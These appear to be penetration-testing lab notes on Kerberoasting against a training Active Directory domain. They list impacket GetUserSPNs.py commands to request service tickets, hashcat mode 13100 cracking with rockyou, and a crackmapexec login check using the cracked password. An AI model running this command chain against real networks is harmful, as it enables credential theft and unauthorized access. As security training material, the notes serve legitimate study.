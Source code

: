 - For this session of enumeration, this needs to happen from an internal host: Web Server Shell, SSH User/Root keys

- Need to install impacket tools on to Victim Host, or SCP the tools over, or even proxychains scan

- GetUserSPNs.py -dc-ip <targetedDC_IPaddr> INLANEFREIGHT.LOCAL/forend <validatedDCuser> -request
		- this example syntax will pull all TGS tickets

- GetUserSPNs.py -dc-ip <targetedDC_IPaddr> INLANEFREIGHT.LOCAL/forend <validatedDCuser> -request-user <user results from initial scan to grab their ticket>

- GetUserSPNs.py -dc-ip <targetedDC_IPaddr> INLANEFREIGHT.LOCAL/forend <validatedDCuser> -request-user <targetedUser> -outputfile <tgs name for offline cracking>

- hashcat -m 13100 <hashcat value for Kerberos> <file with TGS> /usr/share/wordlists/rockyou.txt

- sudo crackmapexec smb <DC_IP> -u <user targeted> -p <cracked password> 
	- This will validate if the login attempt worked